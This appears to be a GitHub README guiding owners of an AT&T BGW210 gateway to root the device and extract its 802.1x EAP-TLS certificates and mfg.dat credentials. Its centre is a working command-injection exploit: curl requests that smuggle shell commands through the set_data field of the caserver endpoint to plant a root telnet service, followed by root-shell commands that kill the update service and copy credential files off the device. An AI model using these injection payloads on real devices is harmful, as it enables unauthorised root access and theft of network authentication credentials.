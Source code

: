 # BypassAttRG

This method works to rip the 802.1x keys from BGW210.

<!-- **Background**: I switched to AT&T fiber and I hate AT&T's residential gateways -->


## Menu
- [Prerequisites](#prerequisites)
- [Extract Certificates](#extract-certificates)
- [Configuring 802.1x authentication](#configuring-8021x-authentication)
- [Miscellaneous](#miscellaneous)
- [Credits & References](#credits--references)

  
## Prerequisites
- [Python 3](https://www.python.org/downloads/release/python-373/) for the local http server. There are many alternatives(e.g. [mobaxterm](https://mobaxterm.mobatek.net/)).
- Basic knowledge of POSIX commands (cd, mkdir, wget, etc.).
- A BGW210

[Back to menu](#menu)
## Extract Certificates
The certificates extracted from both NVG589 and NVG599 work. 
- [BGW210](#bgw210)

### BGW210
Once downgraded, go to http://192.168.1.254/cgi-bin/ipalloc.ha , type your device access code to login, and assign a static IP to your PC that you'll be executing the CURL commands from.

I assigned my PC: 192.168.1.70 since that's what the RG's DHCP-Server had assigned it.

Once you assign a static IP,  refresh your PC's local ip address. using ifconfig, or ipconfig if on windows (cmd prompt: ipconfig /release and then ipconfig /renew). You may ignore this step if you assigned the same IPv4 it received by the DHCP-Server.

Once that's done, open http://192.168.1.254/cgi-bin/ipalloc.ha and authenticate again if it asks.

Once you authenticate, run these CURL commands (remember to navigate to cURL, see my video for help.

(tech has no password when prompted)

  ```
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| echo 28telnet stream tcp nowait root /usr/sbin/telnetd -i -l /bin/nsh > /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -a /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -s|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| reboot|" -v --http1.1 https://192.168.1.254:49955/caserver
  ```
 
The AT&T RG (BGW210) will reboot after the final command, and you'll be able to telnet on port 28 as admin w/ device access code as the password once it reboots. 

(Use Putty if using a Windows PC)
 
Once you're logged in via telnet, type ! and press enter to elevate to a root sh terminal

Now, type top and let the telnet terminal populate with the running processes of the RG.

Once the top command displays all of the running process, look for a process labelled:   
/usr/bin/udpsvd -E 0 69 tftpd /lib/firmware

Press CTRL + C to break out of the top command.

Type kill PID_number_of_udpsvd; 
For example: kill 1048 (in the video I mistook the other four digit number for the PIV by mistake initially, then corrected myself).

This kills the auto update script so that you can make changes, or copy your 802.11x certificates without the ATT firmware automatically updating when you aren't ready for it. Not really as important if you don't have the RG connected to the ONT (I didn't in the video).

#### Extract Certificates
- In BGW210, run the following commands in order. Make sure you are in root shell. Reminder - Type `!`. It switches to root shell.
  ```
  mount -o remount,rw /dev/ubi0 /  
  mount mtd:mfg -t jffs2 /mfg
  cp /mfg/mfg.dat /www/att/mfg.dat
  mount mtd:mfg -t jffs2 /mfg
  Download: http://192.168.1.254/mfg.dat
  
  ## Next:
  
  cd /tmp
  tar cf cert.tar /etc/rootcert/
  cp cert.tar /www/att/images
  Download: http://192.168.1.254/images/cert.tar
  ```
- Reminder: Download http://192.168.1.254/mfg.dat and http://192.168.1.254/images/cert.tar to your **local** device.


[Back to menu](#menu)
## Configuring 802.1x authentication
### Decode Credentials 
Credit: [devicelocksmith](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html)

- Download decoder v1.0.4: [win](decoder/win/mfg_dat_decode_1_04.zip), [linux](decoder/linux/mfg_dat_decode_1_04.tar.gz), [mac](decoder/mac/mfg_dat_decode_1_04_macosx.zip)
  - [Original download page](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html)
- Copy *mfg.dat*, unzip *cert.tar* to the same location as *mfg_dat_decode*.
- Run *mfg_dat_decode*. You should get a file like this: *EAP-TLS_8021x_XXXX*.

## Miscellaneous

### Compile Entware packages from source
Some useful links
- [Compile-packages-from-sources](https://github.com/Entware/Entware/wiki/Compile-packages-from-sources)
- [Compile-custom-programs-from-source](https://github.com/RMerl/asuswrt-merlin/wiki/Compile-custom-programs-from-source)

[Back to menu](#menu)
## Credits & References
- [devicelocksmith](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html): EAP-TLS credentials decoder and the method to extract */mfg/mfg.dat*
- [earlz](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui): Rooting The NVG510 from the WebUI
- [nomotion](https://www.nomotion.net/blog/sharknatto/): NVG589 root exploit
- [dslreports.com](https://www.dslreports.com/forum/uverse): A great forum with many useful information.
- [jsolo1@dslreports.com](https://www.dslreports.com/profile/422016): Provides many helpful & useful suggestions.
- [Streiw](https://www.reddit.com/r/ATT/comments/g59rwm/bgw210700_root_exploitbypass/): Creator of BGW210 Pastebin guide and discover of exploit and main hero of BGW210 root.

[Back to menu](#menu)
